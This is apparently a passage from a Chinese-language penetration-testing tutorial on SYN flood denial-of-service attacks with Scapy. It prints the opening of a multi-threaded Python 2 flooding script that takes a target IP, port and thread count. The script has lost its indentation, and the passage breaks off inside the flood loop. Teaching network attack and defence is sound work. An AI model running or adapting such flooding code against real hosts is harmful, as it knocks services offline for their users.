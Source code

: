 ![](img/00028.jpeg)

1.  相同的请求可以不必独立构建和堆叠每一层。相反，可以使用单行命令，通过直接调用函数并传递适当的参数来执行：

![](img/00031.jpeg)

1.  SYN 洪水的效果取决于在给定时间内能够生成的 SYN 请求的数量。为了提高此攻击序列的效果，我编写了一个多线程脚本，可以执行尽可能多的 SYN 数据包注入并发进程，具体取决于攻击系统的处理能力：

```
        #!/usr/bin/python

        from scapy.all import *
        from time import sleep
        import thread
        import random
        import logging
        logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

        if len(sys.argv) != 4:
        print "Usage - ./syn_flood.py [Target-IP]
         [Port Number] [Threads]"
        print "Example - ./syn_flood.py 10.0.0.5 80 20"
        print "Example will perform a 20x multi-threaded
         SYN flood attack"
        print "against the HTTP (port 80) service on 10.0.0.5"
        sys.exit()

        target = str(sys.argv[1])
        port = int(sys.argv[2])
        threads = int(sys.argv[3])

        print "Performing SYN flood. Use Ctrl+C to stop attack."
        def synflood(target,port):
        while 0 == 0:
        x = random.randint(0,65535)
```